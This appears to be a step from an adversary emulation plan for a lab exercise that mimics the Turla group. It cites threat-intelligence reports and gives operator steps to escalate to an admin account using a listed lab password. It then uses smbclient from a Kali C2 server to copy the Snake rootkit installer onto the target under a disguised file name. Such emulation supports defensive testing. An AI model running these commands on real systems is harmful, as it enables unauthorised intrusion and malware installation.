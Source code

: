 ### :microscope: Cited Intelligence

* <https://securelist.com/analysis/publications/65545/the-epic-turla-operation/>
* <https://www.symantec.com/content/en/us/enterprise/media/security_response/whitepapers/waterbug-attack-group.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf>
* <https://recon.cx/2018/brussels/resources/slides/RECON-BRX-2018-Visiting-The-Snake-Nest.pdf>
* <https://www.govcert.ch/downloads/whitepapers/Report_Ruag-Espionage-Case.pdf>
* <https://docs.broadcom.com/doc/waterbug-attack-group>
* <https://www.welivesecurity.com/2020/03/12/tracking-turla-new-backdoor-armenian-watering-holes/>
* <https://www.welivesecurity.com/2017/06/06/turlas-watering-hole-campaign-updated-firefox-extension-abusing-instagram/>

## Test 10: Install Snake on First Target

:microphone: `Voice Track:`

Test 10 emulates Turla exploiting a vulnerable driver to install the Snake rootkit
on the `Azuolas` system and then performing discovery on `Azuolas` to
discover a file server and associated file server admin.

---

### ☣️ Procedures

* :arrow_right: Switch to your RDP session to `azuolas` as `egle`.

* Open a Powershell prompt and run the following command:

```pwsh
runas /user:nk\egleadmin powershell
```

* When prompted, type in the password for `EgleAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\EgleAdmin | Producer1! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\EgleAdmin`:

```pwsh
whoami
```

:arrow_right: Return to your Kali C2 server terminal window

* From your `smbclient` Kali terminal tab, transfer the Snake installer to `Azuolas`.

```bash
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.40.103/c$ -c 'put /opt/day2/turla/Resources/payloads/epic/snake.exe Users\egle\Desktop\gusbsys.exe'
```

* :arrow_right: Switch to your RDP session to `azuolas` as `egle`.
